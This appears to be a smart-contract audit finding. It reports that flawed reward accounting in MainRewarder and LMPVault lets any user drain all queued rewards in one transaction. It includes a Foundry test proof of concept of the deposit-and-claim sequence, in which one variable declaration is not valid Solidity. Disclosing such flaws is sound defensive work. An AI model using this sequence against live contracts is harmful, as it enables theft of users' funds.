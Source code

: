 # All Rewards can be collected without waiting from mainRewarder

## Summary
The improper accounting at `MainRewarder` and `LMPVault` allows a user to take all queued 
up rewards without waiting the necessary time.

## Vulnerability Detail
During minting of the `LMPVault` tokens the rewards are calculated improperly for the previously 
staked tokens. When new `LMPVault` tokens are minted, the rewards are calculated and collected 
for the already minted tokens, however the amount used to calculate that is unnecessarily 
including the just minted tokens (instead of doing it only for the amount before the current mint).

## Impact
Any user can take all amounts of rewards queued within the MainRewarder contract in a single 
transaction by leveraging a flashloan.

## Code Snippet

1. call LMPVault.claimRewards() which will call the MainRewarder._updateReward()
2. We roll the blocks
3. We deposit a big amount through the LMPVault.deposit()
4. We do again LMPVault.claimRewards()
5. We LMPVault.withdraw()

The code to achieve that:
```solidity
    function test_stealSomeRewards() public {
        uint256 private rewardAmount = 100_000_000;
        liquidator = vm.addr(234);
        _accessController.grantRole(Roles.LIQUIDATOR_ROLE, liquidator);       
        mainRewardVault = _lmpVault.rewarder();
        _toke.mint(liquidator, rewardAmount); // mint 

        vm.startPrank(liquidator);
        _toke.approve(address(mainRewardVault), rewardAmount);
        mainRewardVault.queueNewRewards(rewardAmount);
        vm.stopPrank();

        address user1 = vm.addr(100);
        uint amount = 100_000_000_000;
        vm.label(user1, "user1");

        _asset.mint(user1, amount);

        vm.startPrank(user1);
        _lmpVault.claimRewards();
        vm.stopPrank();

        vm.roll(block.number + 100);

        vm.startPrank(user1);
        _asset.approve(address(_lmpVault), amount);
        _lmpVault.deposit(amount, user1);
        _lmpVault.claimRewards(); // rewards are claimed as if the 'amount' was staked for 100 blocks.
        vm.stopPrank();

        uint rewardsClaimed = _lmpVault.rewarder().balanceOf(user1);

        console.log("Rewards collected: ", rewardsClaimed);
    }
```

## Tool used
Manual Review

## Recommendation
The rewarder should use its own accounting of staked tokens instead of relying on the LMPVault balances.

